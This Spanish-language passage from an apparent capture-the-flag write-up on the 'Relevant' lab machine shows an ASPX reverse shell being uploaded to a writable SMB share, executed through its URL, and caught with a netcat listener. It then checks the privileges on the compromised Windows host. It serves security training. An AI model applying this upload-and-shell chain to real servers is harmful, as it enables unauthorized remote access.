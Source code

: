 ___

*Recordar que SMB For Shares al ser un recurso compartido no solo se puede descargar archivos sinó que tambien subirlos.*

Procedemos a subir nuestro archivo con la ReverseShell previamente creado mediante el comando "Put".

```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Relevant]
└─$ smbclient \\\\10.10.20.130\\nt4wrksv                      
Enter WORKGROUP\temerio's password: 
Try "help" to get a list of possible commands.
smb: \> put relv.aspx 
putting file relv.aspx as \relv.aspx (4.5 kb/s) (average 4.5 kb/s)

```
___

*Una vez subido dicho archivo lo ejecutaremos desde su direccion URL: http://10.10.20.130:49663/nt4wrksv/relv.aspx*
```bash
┌──(temerio㉿Hackademy)-[~]
└─$ nc -lvp 4545                                               
listening on [any] 4545 ...
10.10.20.130: inverse host lookup failed: Unknown host
connect to [10.8.225.45] from (UNKNOWN) [10.10.20.130] 49733
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```
*Asi de facil obtuvimos acceso a la maquina victima.*
___

Ahora tenemos privilegios locales en el servidor de Windows. Hagamos una enumeración del sistema operativo y recuperemos información básica, así como también verifiquemos los puntos de entrada para el escalamiento del sistema.

 
```bash
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```
Vemos que esta habilitado **SeImpersonatePrivilege.** 
